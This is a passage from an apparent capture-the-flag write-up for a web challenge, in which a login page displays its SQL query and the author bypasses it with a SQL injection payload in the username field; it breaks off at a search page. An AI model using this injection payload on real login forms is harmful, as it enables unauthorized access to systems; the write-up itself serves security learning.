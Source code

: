 ## Description
Can you find the flag on this website. Try to find the flag here.

## Solution

we are given a login page, providing username and password fields.
by entering user, pass will show us the sql query made to server:


```
username: admin
password: admin
SQL query: SELECT id FROM users WHERE password = 'admin' AND username = 'admin'
```

We can bypass login page simply by below payload:
```
admin' or 1=1 ;--
```

Now we will be redirected to new page with a search box:
